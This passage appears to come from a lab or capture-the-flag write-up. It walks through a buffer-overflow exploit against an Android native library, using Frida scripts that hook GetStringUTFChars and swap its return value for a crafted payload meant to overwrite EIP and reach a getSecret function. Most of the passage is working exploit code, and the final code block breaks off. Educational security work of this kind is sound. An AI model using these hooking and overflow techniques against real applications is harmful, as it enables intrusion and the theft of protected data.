 ```js
        if (uInput == "exploit") {
          console.log("We are done!");
        }
      }
    });
  }, 2000);
}

start_timer_for_intercept();
```

#### Explanation:

- **Finding the Base Address:** The base address of `libnative-lib.so` is retrieved and logged.
- **Offset Calculation:** We calculate the dynamic address of `GetStringUTFChars` by adding its offset to the base address.
- **Hooking GetStringUTFChars:** We use Frida's `Interceptor.attach` to hook the `GetStringUTFChars` function. If the user input matches "exploit", it confirms that the hook is working as expected.

This setup allows us to intercept and modify the input before it's used in the vulnerable function, helping us to overwrite the `EIP` with the `getSecret` address.

![frida-1](https://github.com/user-attachments/assets/0d55e89c-4583-416d-9093-49d98ad1153e)

Now, let's craft our payload. We need 14 bytes as an offset to reach the `EIP` register, followed by the base address of the `getSecret` function. However, there's a crucial detail: in our previous code, we only used `console.log()`. To exploit the vulnerability, we need to return an address as the `retval`. This requires allocating space in the heap.

Below is the code that does this:

```js
var libnative_lib_so = 'libnative-lib.so';

function start_timer_for_intercept() {
  setTimeout(function() {
    // Find the base address of the library
    console.log("[+] " + libnative_lib_so + " Base Address -> " + Module.findBaseAddress(libnative_lib_so));
    var offset_of_GetStringUTFChars = 0x51110; // Replace with the actual offset
    var dynamic_address_of_GetStringUTFChars = Module.findBaseAddress(libnative_lib_so).add(offset_of_GetStringUTFChars);

    // Allocate space in the heap for our payload
    var memoryForPayload = Memory.alloc(100);
    
    // Craft the payload: 14 'A's (0x41) followed by 'B's (0x42) to overwrite EIP
    var payload = [0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41];
    payload.push(0x42, 0x42, 0x42, 0x42);
    
    // Write the payload into the allocated memory
    Memory.writeByteArray(memoryForPayload, payload);

    // Hook the GetStringUTFChars function and replace the return value with our payload
    Interceptor.attach(dynamic_address_of_GetStringUTFChars, {
      onLeave: function(retval) {
        var uInput = retval.readCString();
        if (uInput == "exploit") {
          retval.replace(memoryForPayload); // Replace retval with our crafted payload
          console.log("We are done!");
        }
      }
    });
  }, 2000);
```